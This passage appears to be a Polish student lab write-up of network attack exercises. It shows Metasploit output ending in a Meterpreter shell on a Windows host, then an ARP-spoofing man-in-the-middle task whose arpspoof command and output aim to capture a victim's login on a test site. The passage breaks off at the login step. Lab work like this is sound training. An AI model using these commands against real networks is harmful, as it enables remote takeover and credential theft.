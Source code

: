 ```console
[-] Meterpreter session 51 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] 192.168.0.103 - Meterpreter session 52 closed.  Reason: Died
[*] Sending stage (200774 bytes) to 192.168.0.103
[-] Meterpreter session 52 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 53 closed.  Reason: Died
[-] Meterpreter session 53 is not valid and will be closed
[*] Sending stage (200774 bytes) to 192.168.0.103
[*] Meterpreter session 45 opened (192.168.0.147:4444 -> 192.168.0.103:49801) at 2022-11-06 08:51:36 -0500
[-] Meterpreter session 55 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 55 closed.
[+] 192.168.0.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.0.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.0.103:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

[-] Meterpreter session 54 is not valid and will be closed
[*] 192.168.0.103 - Meterpreter session 54 closed.
meterpreter > pwd
C:\Windows\system32
```
# Zadanie 7 - MITM przez ARP poisoning
Atakujący:
1. Wykonaj atak MITM techniką ARP poisoning (ARP spoofing)1
Ofiara:
1. W przeglądarce nawiąż połączenie z http://testphp.vulnweb.com/login.php.
2. Wykonaj próbę logowania (dowolne dane).
Atakujący:
1. Odszukaj w zapisanym ruchu dane logowania ofiary.

W pierwszej kolejności ustalam adres ip mojej ofiary, a następnie uruchamiam ARPSPOOF w celu nasłuchiwania komunikacji:
```console
sudo arpspoof -i eth0 -t 192.168.0.103 192.168.0.1
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
8:0:27:db:96:6a 8:0:27:76:62:91 0806 42: arp reply 192.168.0.1 is-at 8:0:27:db:96:6a
```
Kolejne kroki to logowanie na podanej stronie internetowej: